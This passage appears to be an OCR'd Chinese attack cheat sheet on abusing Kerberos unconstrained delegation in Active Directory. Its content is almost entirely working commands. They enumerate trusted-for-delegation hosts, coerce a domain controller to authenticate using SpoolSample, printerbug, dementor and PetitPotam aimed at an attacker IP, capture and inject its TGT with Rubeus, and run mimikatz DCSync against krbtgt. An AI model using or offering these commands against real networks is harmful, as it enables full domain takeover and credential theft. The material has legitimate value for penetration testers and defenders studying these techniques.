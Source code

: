	用户发送一个 TGS 和他们的 TGT 来访问服务，然后服务可以使用用户的 TGT 为用户请求一个 TGS 到任何其他服务并模拟用户
### 无约束委派的SpoolService
  	目标是使用计算机帐户和 SpoolService 错误获得 DC 同步权限
	要求：
	具有属性的对象信任此计算机以委托给任何服务（仅限 Kerberos）
	必须有ADS_UF_TRUSTED_FOR_DELEGATION
	不得有ADS_UF_NOT_DELEGATED标志
	用户不得在受保护的用户组中
	用户不能有标志帐户是敏感的，不能被委派
	寻找委派
	域控制器通常启用无约束委派。检查TrustedForDelegation
	https://github.com/samratashok/ADModule
	PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
	https://github.com/dirkjanm/ldapdomaindump
	$> ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
	grep TRUSTED_FOR_DELEGATION domain_computers.grep
	https://github.com/byt3bl33d3r/CrackMapExec/wiki
	>cme ldap 10.10.10.10 -u username -p password --trusted-for-delegation
	SpoolService 状态
	>ls \\dc01\pipe\spoolss
	>python rpcdump.py DOMAIN/user:password@10.10.10.10
	使用 Rubeus 进行监控
	监控来自 Rubeus 的传入连接。
	>Rubeus.exe monitor /interval:1 
	强制从 DC 重新连接
	由于无约束委托，计算机帐户（DC$）的 TGT 将保存在无约束委托计算机的内存中。默认情况下，域控制器计算机帐户对域对象具有 DCSync 权限。
	SpoolSample 是一种 PoC，用于强制 Windows 主机使用 MS-RPRN RPC 接口中的“功能”对任意服务器进行身份验证。
	https://github.com/leechristensen/SpoolSample
	>.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
	>.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
	DC01.HACKER.LAB 是我们要攻破的域控制器
	HELPDESK.HACKER.LAB 是我们控制的启用委派的机器。
	https://github.com/dirkjanm/krbrelayx
	>printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>
	https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
	>python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>
	加载票据
	从 Rubeus 输出中提取 base64 TGT 并将其加载到我们当前的会话中。
	>.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
	或者使用 Mimikatz 抢票： mimikatz # sekurlsa::tickets
	然后你可以使用 DCsync 或其他攻击：mimikatz # lsadump::dcsync /user:HACKER\krbtgt
### 无约束委派的MS-EFSRPC滥用
  	使用PetitPotam来强制从目标机器进行回调
	>git clone https://github.com/topotam/PetitPotam
	>python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
	>python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
	导出票据
	>.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt